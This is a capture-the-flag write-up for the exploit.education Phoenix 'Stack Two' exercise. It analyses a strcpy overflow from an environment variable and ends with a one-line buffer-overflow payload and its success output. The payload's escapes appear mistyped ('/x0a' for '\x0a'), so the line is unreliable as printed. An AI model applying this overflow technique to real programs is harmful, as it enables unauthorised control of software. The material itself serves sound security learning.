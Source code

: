 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x2"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 2

Write-up for: [Stack Two](https://exploit.education/phoenix/stack-two/)

<!--more-->

Running the binary reveals that we need to change an environment variable

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

After setting the variable, the output changes

```
export ExploitEducation=AAAA
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

Looking at the disassembly of the main function we can see where the
environment variable is stored:

```
0x0804856e      e8edfdffff     call sym.imp.getenv        ; char *getenv(const char *name);
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      8945f4         mov dword [ebp - local_ch], eax

```

`[ebp - local_ch]` which is at ebp - 0x0C.

This variable is later used in an unsafe call to strcpy where the content of the environment
variable is copied to ebp - local_50h or ebp-0x50. For the success check, the value at ebp - 0x10
is compared to 0xd0a090a. We need a way to write to ebp - 0x10.

The buffer size is 64 bytes. Thus we need to write 64 bytes + the 4 required bytes.

# Exploit

```
user@phoenix-amd64:/opt/phoenix/i486$ export ExploitEducation=`python -c 'print "A"*64 + "/x0a/x09/x0a/x0d"'`         
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
